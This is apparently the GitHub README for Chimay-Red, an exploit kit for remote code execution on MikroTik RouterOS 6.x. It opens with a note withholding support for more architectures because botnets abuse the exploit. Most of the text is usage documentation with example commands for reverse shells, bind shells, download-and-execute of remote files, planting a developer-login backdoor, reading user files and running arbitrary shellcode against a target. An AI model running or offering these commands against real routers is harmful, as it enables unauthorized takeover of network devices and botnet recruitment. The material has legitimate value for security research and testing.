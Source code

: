 # Chimay-Red
Mikrotik RouterOS (6.x < 6.38.5) exploit kit. Reverse engineered from the "Vault 7" WikiLeaks publication.

To learn more about the creation and purpose of this software, please visit: [http://blog.seekintoo.com/chimay-red.html](http://blog.seekintoo.com/chimay-red.html)

## Important Note: 

After further consideration by the **Seekintoo** team, it has been decided that additional architecture support will NOT be released exploiting any `RouterOS` supporting architecture either than `x86` and `mips`*.

The reasoning for this, after further research, is that there are currently botnet(s) operating on the internet taking advantage of this exact exploit attacking both x86 and mips* systems, both of which public exploits have been released for. The name of one of these botnets is "hajime". hajime's inception was long ago, but as of late it has been noticed to abuse the chimay-red exploit on `RouterOS 6.x` devices as covered and analyzed extensively (to name a few):

- [https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet](https://avlab.pl/en/exploit-chimay-red-vulnerable-device-mikrotik-and-ubiquiti-form-giant-botnet)

- [https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/](https://www.bleepingcomputer.com/news/security/hajime-botnet-makes-a-comeback-with-massive-scan-for-mikrotik-routers/)

- [https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html](https://www.corero.com/blog/882-hajime-botnet-scanning-for-vulnerable-mikrotik-routers.html)

- [https://forum.mikrotik.com/viewtopic.php?t=132490](https://forum.mikrotik.com/viewtopic.php?t=132490)

In-addition to the timing of the release of the first (known) public PoC for Chimay-Red by [BigNerd](https://github.com/BigNerd95/Chimay-Red) in contrast to the current state of rampant `RouterOS` harvesting botnets is currently too much to ignore. Therefore **Seekintoo** will **NOT** be responsible for contributing to these criminal enterprises.

Although if public exploits for additional architectures are found posted on source code hosting facilities, if robust enough, they WILL be re-supported here.

Feel free to contact me at: dpidhirney@seekintoo dot com

## Chimay-Red Usage:

```text
usage: chimay_red.py [-h] -t TARGET [-l LHOST] [--shellcommand SHELLCOMMAND]
                     [-d] [--breakpoints BREAKPOINTS] [-a ARCHITECTURE]
                     [--gdbport GDBPORT] [--binary BINARY]
                     [--shellcode SHELLCODE] [--vector VECTOR]
                     [--leakrounds LEAKROUNDS] [-v] [--version]
                     command

positional arguments:
  command               command function to run on target, see below for
                        options

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target address:port
  -l LHOST, --lhost LHOST
                        specify the connectback* address
  --shellcommand SHELLCOMMAND
                        return interactive shell as main payload (default)
  -d, --debug           enable debugging mode
  --breakpoints BREAKPOINTS
                        list of comma delimited breakpoint addresses. Eg.
                        0x800400,0x800404
  -a ARCHITECTURE, --architecture ARCHITECTURE
                        target architecture (will detect automatically if
                        target in route table range)
  --gdbport GDBPORT     port to use when connecting to remote gdbserver
  --binary BINARY       target binary (www)
  --shellcode SHELLCODE
                        custom (optional) shellcode payload binary filepath
  --vector VECTOR       optional vector type, see below for options
  --leakrounds LEAKROUNDS
                        amount of rounds to leak pointers, higher is better,
                        but takes more time
  -v, --verbose         Verbosity mode
  --version             show program's version number and exit

Commands:
    COMMAND                    FUNCTION
    
    bindshell                    create a bindshell
    connectback                  create a reverse shell
    download_and_exe             connect back and download a file to then execute
    ssl_download_and_exe         connect back and download a file via SSL to then execute
    write_devel                  write "devel-login" file to allow developer account login
    write_devel_read_userfile    in addition to enabling developer logins, read back the users file
    
    custom_shellcode             run arbitrary shellcode from `--shellcode` binfile
    custom_shell_command         run a arbitrary $sh one liner on the target
    
Vectors:
    default: (mikrodb)

    [Generic]
        mikrodb:
            use the accompanying mikrodb database to load offsets 
            based off of detected remote version to build a ROP chain.
    
        build:
            build a ROP chain from scratch given the www binary matching
            the remote version running.
    
    [Experimental]
        leak:
            leak pointers from shared libraries to give better odds of
            finding base offset of uclibc.
            
Examples:

    Running simple shell command:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb     \
            --lhost=192.168.56.1 \
            --shellcommand="ls -la" custom_shell_command

    Getting a reverse shell:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=mikrodb \
            --lhost=192.168.56.1 connectback
            
    Debugging the target:
        ./chimay_red.py -v -t 192.168.56.124:80 \
            --vector=build       \
            --architecture="x86" \
            --binary=$PWD/storage/www/www-x86-6.38.4.bin \
            --debug        \
            --gdbport=4444 \
            --lhost=192.168.56.1 connectback
    

==================================================
|  _______   _                     ___         __|
| / ___/ /  (_)_ _  ___ ___ ______/ _ \___ ___/ /|
|/ /__/ _ \/ /  ' \/ _ `/ // /___/ , _/ -_) _  / |
|\___/_//_/_/_/_/_/\_,_/\_, /   /_/|_|\__/\_,_/  |
|                      /___/                     |
==================================================
```

## mikrodb Usage:

```text
usage: mikrodb.py [-h] [-v] [--architectures ARCHITECTURES]
                  [--versions VERSIONS]

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbosity mode
  --architectures ARCHITECTURES
                        architectures to build for. Eg. --architectures="x86"
                        or "x86,mmips"
  --versions VERSIONS   versions to build for. Eg. --versions="6.38.4" or
                        "6.36.4,6.38.4"

Example: 
    ./mikrodb.py --architectures="x86" --versions="6.36.4,6.38.4"

```
